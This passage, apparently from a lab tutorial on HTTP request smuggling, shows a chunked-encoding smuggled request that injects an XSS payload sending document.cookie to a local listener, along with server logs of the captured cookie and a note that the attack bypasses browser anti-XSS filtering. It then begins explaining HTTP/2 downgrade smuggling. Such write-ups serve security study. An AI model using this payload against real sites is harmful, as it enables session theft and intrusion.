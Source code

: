 In itself this is not considered an important vulnerability, but if you can chain it with another one, like XSS in our LAB, it's clear that it will be more serious. Let's consider the following paylod:

    POST / HTTP/1.1
    Host: localhost
    Content-Length: 135
    Transfer-Encoding: chunked
    
    0
    
    GET /contact.php?"><img src='http://localhost:8000/c.jpeg' onload=this.src='http://localhost:8000/?'+document.cookie> HTTP/1.1
    X:

Here I used a classic payload to steal the user's cookie. Start a local python server, send the smuggled request a couple of time, then visiting a page on localhost you should see your cookie into the python server console:

    127.0.0.1 - - [04/Jun/2024 15:44:16] "GET /c.jpeg HTTP/1.1" 304 -
    127.0.0.1 - - [04/Jun/2024 15:44:16] "GET /?{073ef109-18e5-44ae-acb5-e4ce8d598d15}=value HTTP/1.1" 200 -

I also hosted an image to avoid using the onerror event that will continue to send the second request since a time out occurs. Please note that the application does not use any cookies, I manually added one just to test the procedure.
### Additional notes
This payload worked on Firefox and Chrome (last release), sent through Burp Repeater. Sending the payload directly through these browsers, will result in an encoded query string parameter, due to the anti-XSS features present on the browser. That will stop our exploit to work, indeed the smuggled request permitted to us to bypass these protections completely.

## HTTP/2 Request smuggling (?)
HTTP/2 is a binary protocol. HTTP/2 messages are sent as one or more frames and each frame has an explicit length that tells the server how many bytes to read. The length of an HTTP/2 message is calculated accordingly by adding up the length of all frames. This length can not be manipulated, so it is not possible smuggling request on HTTP/2. The only possibility we have to perform such attack is when the front-end (proxy) supports HTTP/2 but the back-end does not. Then the front-end must convert the HTTP/2 request for the back-end into an HTTP/1.1 request. This creates new possibilities for manipulation.
### HTTP/2 to HTTP/1 proxy downgrade
Some proxy support the downgrade to HTTP/1.1, this is not a vaulnerability but actually a feature. For istance it can be useful to simplify the deployment of microservices, since they don't have to be configured to use TLS. In this scenario we can try to abuse the conversion that take place between H2 (HTTP/2) to H1 (HTTP/1.1), since the requests need to be rewritten. But how we can smuggle a request in this scenario?

We know that HTTP/2 doesn't contemplate a content-length header, since the binary format of HTTP/2 has built-in length for every frame field, however, as we know, it's always possible to inject that header in a H2 frame. Doing that we can try to confuse the request conversion process towards the backend.
Follows a sample malicious H2 request that we could use:
